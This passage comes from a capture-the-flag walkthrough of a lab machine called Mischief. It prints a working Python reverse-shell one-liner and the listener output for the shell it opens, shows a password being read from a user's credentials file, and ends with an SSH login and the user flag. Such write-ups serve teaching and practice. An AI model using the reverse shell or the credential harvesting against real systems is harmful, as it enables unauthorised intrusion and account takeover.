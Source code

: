 #### python payload:
{% highlight shell %}
python -c 'import socket,subprocess,os,pty;s=socket.socket(socket.AF_INET6,socket.SOCK_STREAM);s.connect(("dead:beef:2::100b",443,0,2));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=pty.spawn("/bin/sh");';
{% endhighlight %}

Now, we got a reverse shell as user "www-data".
{% highlight shell %}
root@kali:~# ncat -6 -lv dead:beef:2::100b 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on dead:beef:2::100b:443
Ncat: Connection from dead:beef::250:56ff:feb9:c793.
Ncat: Connection from dead:beef::250:56ff:feb9:c793:59574.
$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$
{% endhighlight %}

Then, try to look at the home directory of only one user "loki".<br>
We can find a possible password "lokiisthebestnorsegod".
{% highlight shell %}
$ pwd     
pwd
/home/loki

$ cat credentials
cat credentials
pass: lokiisthebestnorsegod

$
{% endhighlight %}

Since we have ssh running on the target, we can login as "loki" with the above password.
{% highlight shell %}
loki:lokiisthebestnorsegod
{% endhighlight %}
{% highlight shell %}
root@kali:~# ssh loki@10.10.10.92
loki@10.10.10.92's password: 
Welcome to Ubuntu 18.04 LTS (GNU/Linux 4.15.0-20-generic x86_64)

---

Last login: Sat Jul 14 12:44:04 2018 from 10.10.14.4
loki@Mischief:~$ id
uid=1000(loki) gid=1004(loki) groups=1004(loki)

loki@Mischief:~
{% endhighlight %}

user.txt is in the directory of "/home/loki".
{% highlight shell%}
loki@Mischief:~$ cat user.txt 
bf58078e7b802c5f32b545eea7c90060

loki@Mischief:~$ 
{% endhighlight %}
